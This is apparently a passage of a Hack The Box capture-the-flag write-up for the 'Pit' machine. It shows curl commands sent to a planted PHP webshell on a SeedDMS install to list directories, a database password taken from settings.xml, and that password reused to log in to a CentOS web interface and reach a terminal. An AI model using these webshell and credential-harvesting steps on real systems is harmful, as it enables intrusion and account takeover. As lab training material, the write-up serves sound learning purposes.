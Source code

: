 ### CentOS Credentials

Since we had a webshell, I wanted to see if we could find the credentials for the CentOS interface we found earlier. We can slowly enumerate the file system:

```
$ curl -G --data-urlencode 'cmd=ls ../' http://dms-pit.htb/seeddms51x/data/1048576/30/1.php 
21
29
30
$ curl -G --data-urlencode 'cmd=ls ../../' http://dms-pit.htb/seeddms51x/data/1048576/30/1.php
1048576
backup
cache
conf
log
lucene
staging
$ curl -G --data-urlencode 'cmd=ls ../../conf' http://dms-pit.htb/seeddms51x/data/1048576/30/1.php
settings.xml
settings.xml.template
stopwords.txt
```

Within `settings.xml`, we can find a set of credentials

```markup
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
```

This doesn't work with SSH, but we can use this to login to the CentOS interface as `michelle`.&#x20;

<figure><img src="../../../.gitbook/assets/image (25) (6).png" alt=""><figcaption></figcaption></figure>

In the bottom left corner, we can access the Terminal application, which is basically another webshell as `michelle`.

